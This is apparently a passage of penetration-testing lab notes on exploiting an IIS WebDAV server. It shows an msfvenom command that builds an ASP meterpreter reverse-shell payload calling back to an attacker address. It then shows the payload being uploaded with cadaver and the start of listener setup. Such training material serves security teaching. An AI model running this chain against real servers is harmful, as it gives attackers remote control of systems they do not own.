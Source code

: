 * Use [Metasploit module](https://www.rapid7.com/db/modules/exploit/windows/iis/iis\_webdav\_upload\_asp/) to execute a payload and optain a **reverse shell** (**`meterpreter session`**) on the target system or use `msfvenom` to manually create a payload and use it with metasploit.

### [msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) - manual <a href="#msfvenom-manual" id="msfvenom-manual"></a>

* Generate `.asp` payload manually using `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=1234 .f asp > shell.asp 
```

```bash
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of asp file: 38309 bytes

root@attackdefense:~# ls
Desktop  impacket  shell.asp  thinclient_drives
```

* Use `cadaver` to upload the generated `shell.asp` payload to the `/webdav` directory

```bash
cadaver http://10.0.17.242/webdav
```

```bash
dav:/webdav/> put shell.asp 
Uploading shell.asp to `/webdav/shell.asp':
Progress: [=============================>] 100.0% of 354 bytes succeeded.
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Before executing the `shell.asp`, _setup a **listener**/**handler** that will receive the reverse connection from the target and send the stage that provides with a `meterpreter` session when executed_.

* In order to do this, start the PostgreSQL database service, because metasploit framework console requires the metasploit framework to be started
